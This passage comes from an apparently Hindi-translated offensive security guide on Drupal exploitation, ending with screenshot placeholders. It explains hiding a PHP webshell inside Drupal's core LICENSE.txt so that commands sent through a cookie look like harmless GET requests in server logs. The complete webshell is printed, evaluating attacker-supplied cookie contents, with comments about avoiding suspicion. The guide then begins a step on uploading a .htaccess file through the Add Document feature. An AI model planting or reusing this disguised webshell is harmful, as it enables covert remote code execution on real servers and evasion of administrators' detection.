क्योंकि एक बार जब Webshell (जिसे हम LICENSE.txt कहेंगे) वेब सर्वर पर ड्रॉप किया जाता है, हम अपने कमांड `$_COOKIE` के माध्यम से भेज सकते हैं और वेब सर्वर लॉग में, यह एक वैध GET अनुरोध के रूप में एक टेक्स्ट फ़ाइल के लिए दिखाई देगा।

हमारे Webshell का नाम LICENSE.txt क्यों रखा जाए?

सिर्फ इसलिए क्योंकि अगर हम निम्नलिखित फ़ाइल लेते हैं, उदाहरण के लिए [core/LICENSE.txt](https://github.com/drupal/drupal/blob/11.x/core/LICENSE.txt) (जो पहले से ही Drupal कोर में मौजूद है), तो हमारे पास 339 पंक्तियों और 17.6 KB आकार की एक फ़ाइल है, जो बीच में एक छोटा PHP कोड स्निपेट जोड़ने के लिए एकदम सही है (क्योंकि फ़ाइल काफी बड़ी है)।

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

फ़ाइल: पैच किया गया LICENSE.txt
```txt

...

this License, you may choose any version ever published by the Free Software
Foundation.

<?php

# We inject our payload into the cookies so that in the logs of the compromised
# server it shows up as having been requested via the GET method, in order to
# avoid raising suspicions.
if (isset($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
if (!empty($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
eval($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"]);
} else {
phpinfo();
}
}

?>

10. If you wish to incorporate parts of the Program into other free
programs whose distribution conditions are different, write to the author

...

```
#### **Part 3.1 (फाइल अपलोड करें .htaccess)**

पहले, हम _Add Document_ (/media/add/document) सुविधा का उपयोग करके अपनी फाइल अपलोड करते हैं जिसमें Apache निर्देश (.htaccess) होते हैं।

<figure><img src="../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>
